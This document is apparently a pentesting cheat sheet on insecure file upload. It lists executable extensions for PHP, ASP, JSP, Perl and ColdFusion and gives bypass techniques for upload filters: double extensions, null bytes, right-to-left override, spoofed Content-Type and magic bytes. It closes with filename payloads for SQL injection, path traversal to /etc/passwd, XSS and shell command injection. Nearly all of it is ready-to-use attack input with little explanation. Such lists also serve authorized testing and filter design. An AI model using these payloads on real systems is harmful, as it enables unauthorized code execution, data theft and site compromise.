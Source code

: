 # Insecure File Upload

## Defaults extensions

```bash
#PHP
.php, .php3, .php4, .php5, .php7, .pht, .phps, .phar, .phpt, .pgif, .phtml, .phtm, .inc

#ASP
.asp, .aspx, .cer, .asa

#JSP
.jsp, .jspx, .jsw, .jspf

#Perl
.pl, .pm, .cgi, .lib

#Coldfusion
.cfm, .cfml, .cfc, .dbm
```

## Bypasses

### Double extensions

```bash
file.jpg.php
file.php.jpg
file.php.blah123jpg
```

### Null byte

```text
file.php%00.gif
file.php\x00.gif
file.php%00.png
file.php\x00.png
file.php%00.jpg
file.php\x00.jpg
```

### Special characters

```bash
#In Windows when a file is created with dots at the end those will be removed
file.php......

#Whitespace characters
file.php%20

#Right ot Left Override
file.%E2%80%AEphp.jpg #Will became file.gpj.php
```

### Content-type Bypass

```bash
#Original name but different content-type
Content-Type: image/jpeg
Content-Type: image/gif
Content-Type: image/png
```

### Magic bytes

```bash
#Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application
PNG: \x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[
JPG: \xff\xd8\xff
GIF: GIF87a
GIF: GIF8
```

### Filename Vulnerabilities:

```bash
#Time-Based SQLi Payloads
poc.js'(select*from(select(sleep(20)))a)+'.extension

#LFI Payloads
image.png../../../../../../../etc/passwd

#XSS Payloads
'"><img src=x onerror=alert(document.domain)>.extension

#File Traversal
../../../tmp/lol.png

#Command Injection
; sleep 10;
```

## All Filename payloads

```csharp
.jpg.php
.php.jpg
.php.blah123jpg
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
.php......
.php%20
.%E2%80%AEphp.jpg
.js'(select*from(select(sleep(20)))a)+'.extension
.png../../../../../../../etc/passwd
'"><img src=x onerror=alert(document.domain)>.extension
../../../tmp/lol.png
.; sleep 10;
```

